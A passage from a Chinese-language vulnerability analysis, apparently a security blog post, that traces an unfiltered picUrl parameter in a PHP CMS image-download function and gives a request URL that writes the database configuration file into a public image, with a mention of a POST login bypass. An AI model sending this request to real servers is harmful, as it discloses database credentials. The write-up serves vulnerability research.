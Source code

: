 向下对变量 **$picUrl** 是否为空进行判断，并判断是否进行登录，这里使用 **POST** 传参进行验证登录绕过，跳转到 else 语句下

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB1sCqP9wWUa2ibvdARr3H7ib8ML23jI7mnzPcNiatt8YsObxzUUWKGicGoqXJbWjiaibaDKFMKJmEkD62Q/640?wx_fmt=png)

```
else {
           $content = wp_file_get_contents($picUrl);
           // 获取图片扩展名
           $picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
           if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
               $picExt = 'jpg';
          }
           $picName = NOW_TIME . uniqid() . '.' . $picExt;
           $picPath = $savePath . '/' . $picName;
           $res = file_put_contents($picPath, $content);
           if (!$res) {
               $cover_id = do_down_image($media_id);
               if (!$cover_id) {
                   return 0;
                   exit();
              }
          }
```

分析传入变量 **picUrl** 的 **wp_file_get_contents** 方法

```
$content = wp_file_get_contents($picUrl);
```

函数文件位置 **application\common.php**  

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB1sCqP9wWUa2ibvdARr3H7ibOYJV4icpwiaKHNJKJIm77lcKn9o7UwXl6A78Ga1OTeaKEL3ym724UWkw/640?wx_fmt=png)

可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析  

```
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
               $picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
```

这里创建了有关当前时间的图片文件，并写入文件夹 **/public/uploads/picture/** 下  

我们先尝试控制变量 **$picUrl** 来写入数据库配置文件到图片中

```
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB1sCqP9wWUa2ibvdARr3H7ibfJFSZqyQeZprtecWic28ZrG9UXgxFunQxMbtE9RLPKnkP8HFUiaQ5nkA/640?wx_fmt=png)
